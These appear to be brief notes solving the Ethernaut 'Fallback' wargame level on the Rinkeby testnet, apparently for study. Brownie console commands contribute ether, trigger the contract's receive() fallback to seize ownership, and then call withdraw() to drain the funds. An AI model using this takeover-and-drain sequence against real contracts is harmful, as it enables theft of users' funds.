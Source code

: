 first need to contribute, then receive() fallback function by sending some eth, then withdraw

in brownie console

brownie console --network rinkeby

acct=accounts.load('ethernaut_rinkeby')

abi={coller l'abi en fmt json}

contract=Contract.from_abi("contract","0x5A47590dA09F3d786eF8Ae855f7AFc780EE56a3B",abi)

contract.contribute( {'from': acct, 'value': Wei('0.0001 ether')})
contract.contributions(acct)
>> send by using fram directly (acct.transfer(contract.address, amount=0.00001, gas_limit=1000000, priority_fee=2, allow_revert=True)) did not work because of max gas config
contract.owner()
contract.withdraw({'from': acct})


